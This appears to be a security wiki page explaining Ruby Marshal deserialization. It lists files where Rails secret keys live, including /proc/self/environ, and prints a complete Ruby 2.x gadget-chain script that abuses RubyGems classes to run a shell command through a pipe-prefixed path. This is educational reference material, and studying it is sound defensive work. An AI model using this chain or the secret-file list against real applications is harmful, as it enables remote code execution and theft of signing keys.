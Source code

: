 Ruby has two methods to implement serialization inside the **marshal** library: first method is **dump** that converts object into bytes streams **(serialize)**. And the second method is **load** to convert bytes stream to object again (**deserialize**).\
Ruby uses HMAC to sign the serialized object and saves the key on one of the following files:

* config/environment.rb
* config/initializers/secret\_token.rb
* config/secrets.yml
* /proc/self/environ

Ruby 2.X generic deserialization to RCE gadget chain (more info in [https://www.elttam.com/blog/ruby-deserialization/](https://www.elttam.com/blog/ruby-deserialization/)):

```ruby
#!/usr/bin/env ruby

class Gem::StubSpecification
  def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|id 1>&2")#RCE cmd must start with "|" and end with "1>&2"

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
  def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
  def marshal_dump
    [$dependency_list]
  end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


```